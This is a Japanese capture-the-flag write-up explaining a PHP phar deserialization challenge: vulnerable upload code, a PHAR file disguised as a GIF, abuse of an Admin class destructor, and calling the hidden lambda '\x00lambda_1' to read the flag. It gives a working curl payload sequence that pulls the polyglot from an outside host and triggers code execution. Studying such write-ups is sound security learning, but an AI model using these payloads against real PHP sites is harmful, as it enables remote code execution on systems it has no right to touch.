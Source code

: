 ```php
            die("Bye Bye");

        $data = unserialize($data);
        if ( !isset($data->avatar) )
            die("Bye Bye Bye");
        return $data->avatar;
    }

    function upload($path) {
        $data = file_get_contents($_GET["url"] . "/avatar.gif");
        if (substr($data, 0, 6) !== "GIF89a")
            die("Fuck off");
        file_put_contents($path . "/avatar.gif", $data);
        die("Upload OK");
    }

    function show($path) {
        if ( !file_exists($path . "/avatar.gif") )
            $path = "/var/www/html";
        header("Content-Type: image/gif");
        die(file_get_contents($path . "/avatar.gif"));
    }

    $mode = $_GET["m"];
    if ($mode == "upload")
        upload(check_session());
    else if ($mode == "show")
        show(check_session());
    else
        highlight_file(__FILE__);
```
したがって、`upload`関数で`?url=http://attacker/avatar.gif`としてpharファイルをGIFに偽装してアップロードしておき、また`upload`関数を呼びだすことでこのパスを`?url=phar:///var/www/data/md5("orange".$_SERVER["REMOTE_ADDR"])/avatar.gif`でPHARファイルとして読み込めばRCEのやつができる！  
`show`でも`if ( !file_exists($path . "/avatar.gif") )`で読み込めそうだが、`$path`は制御できず`phar://`とすることはできないためここでは使えない。  
Adminクラスには明らかにObject Injectionに使ってくださいと言わんばかりの`__destruct()`がある。  
以下で`__desturuct`さえ呼びだせればよいのでこれでいい。  
```txt
$ cat avatar.gif
GIF89a<?php __HALT_COMPILER(); ?>
W O:5:"Admin":1:{s:2:"ip";s:0:"";}   index.pheQFƁ<?php ?>=)Ʀ0*?KbaQGBMB
```
`my_function_$random`を呼び出すことができればFlagが表示されるっぽいが、`$random`の値を推測することができない…  
`$_GET["lucky"]();`もあるが、ここで、``$FLAG    = create_function("", 'die(`/read_flag`);');``でラムダ関数が定義されていることを利用して、`"\x00lambda_1"();`で同じものを実行できる！  
  
あと、WriteupにはApache Preforkがどうのこうの書いてるけどよくわからん…  
新規子プロセスをApacheにforkさせる意味はなんだろうか？？  
`"\x00lambda_1"();`の数字を`1`と推測するためかな？？？？  
- **payload**  
```txt
# get a cookie
$ curl http://host/ --cookie-jar cookie

# download .phar file from http://orange.tw/avatar.gif
$ curl -b cookie 'http://host/?m=upload&url=http://orange.tw/'

# force apache to fork new process
$ python fork.py &

# get flag
$ curl -b cookie "http://host/?m=upload&url=phar:///var/www/data/$MD5_IP/&lucky=%00lambda_1"
```